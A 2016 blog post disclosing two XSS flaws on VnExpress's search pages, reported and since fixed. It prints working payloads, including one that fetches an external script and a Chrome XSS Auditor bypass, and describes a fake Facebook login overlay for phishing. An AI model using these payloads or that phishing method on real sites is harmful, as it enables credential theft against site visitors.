 +++
Categories = ["security"]
Tags = ["security"]
author = "Cong Nguyen"
authorfacebook = "http://facebook.com/ntcong.it"
authorgoogleplus = "https://plus.google.com/+CongNguyen"
authorlink = "http://ntcong.it"
date = "2016-03-22T16:20:20+07:00"
thumbnail = "/img/vne/vne.jpg"
title = "XSS vulnerablities on VnExpress"

+++

# XSS on e.vnexpress.net

Recently I found two XSS vulnerablities on vnExpress website. It all begins with the newly introduced English version of VnExpress, and I didn't have to spend a lot of time to find the search box wasn't escaped properly. Just do a search with "> will reveal this.

{{< figure src="/img/vne/vne1.png" title="XSS on e.VNE" >}}

Pretty serious problem if anyone still doesn't care about escaping user-input, especially on a search box. Luckily, a normal XSS payload will only works on Firefox, because Chrome and IE have XSS Auditor for a while now (you can still bypass it, which I will tell you later). Also because the site doesn't have user account yet, the best I can do is launching a phishing attack (I jut did a PoC to demo what I can do, not really attack anyone).

Phishing is also a serious problem for a big website like VnExpress. People trained to trust VnE and will do most thing the website told them to (like give Facebook's password). So it's pretty simple, I can inject my script in the search page already, I load the main site with jQuery.get, replace the top post with a fake Facebook login, replace the HTML content, and then use window.history.pushState to replace the address bar. This way the site will display the main page with its url, not the search page.

But it's still not very good since it only works on Firefox, so I did a quick look at the HTML source code and found this


{{< highlight js >}}
var strKeyWord  = "">";
var blData      = 0;
{{< /highlight >}}

Why they include the search parameter on a Javascript code, without any protection is beyond me, but this will bypass all the protection XSS Auditor provides to you, because it's not a normal XSS payload anymore, any text you inputed in will run on javascript directly. The new payload will look like this.
{{< highlight js >}}
";alert(1);"
{{< /highlight >}}

And it will not be detected by Chrome or IE's XSS Auditor. Extensible is a must, so I load the script from outside
{{< highlight js >}}
";jQuery.getScript("http://js.js") .done(function() {});"
{{< /highlight >}}

Pretty neat, huh?

What should I do to prevent it? Well XSS is never a simple problem to begin with, but at least never ever trust anything the user input, escape it, whitelist the character, make sure they don't input any special characacter, because no one want to search an article with ";"@(alert(1));" anyway. And NEVER use the input directly onto your javascript, it is very dangerous.


# XSS on vnexpress.net

Then I thought, if they fucked up this bad on their new site, the main site should have some weakness as well. One thing they did a little better is, the main search box is properly escaped, but I noticed they put the whole URL onto the Time and Sort filter, so maybe something will not be escaped, like the "search_f=" parameter.

    http://timkiem.vnexpress.net/?search_f=%22%3E&q=xss&cate_code=&media_type=all&latest=&fromdate=0&todate=0&date_format=all
{{< figure src="/img/vne/vne2.png" title="XSS on VNE" >}}

This time there's no javascript bug on this page, but working only with Firefox is no fun, let's find out how to bypass Chrome.

So Chrome did a great job to find a XSS payload on the URL, and prevent it from running. But there's a flaw: it won't stop an invalid XSS payload, like a script without closing tag. And the HTML parse won't care about the content inside the <script> tag, as long as you include a src attribute. This payload requires you to have a closing </script> tag, which most website nowaday have to execute javascript after the main content finishes loading. The payload looks like this

{{<highlight js>}}
"><script/src=data:,alert(1)%26sol;%26sol;
{{< /highlight >}}

The result html will looks like this: \<script src="data:,alert(1)//&q=xss....">[a lot of HTML]\</script>. Andddd it runs on Chrome. And also it's pretty funny to see VnExpress do some weird shit with their site, results in the alert(1) display several times when the page loads (view count increase maybe?)

Kudos to VnExpress for fixing the bug pretty fast after I reported it to them. But I think they should do something better than having a XSS vuln on the main search box in the first place.
